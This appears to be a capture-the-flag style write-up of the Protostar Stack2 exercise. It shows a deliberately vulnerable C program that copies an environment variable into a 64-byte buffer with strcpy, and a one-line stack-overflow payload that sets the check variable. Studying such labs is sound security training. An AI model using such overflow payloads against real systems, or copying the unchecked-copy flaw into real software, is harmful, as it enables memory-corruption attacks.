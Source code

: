 # Protostar :: Stack2

Here is the code for this exercise.
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

This exercise is identical to the previous exercise, only now we're
writing our payload into an environment variable to solve it. Take a look at
the stack1 writeup to learn how to do it.
```bash
$ export GREENIE=$(python -c 'print "A" * 64 + "\x0a\x0d\x0a\x0d"')
$ ./stack2
you have correctly modified the variable
```
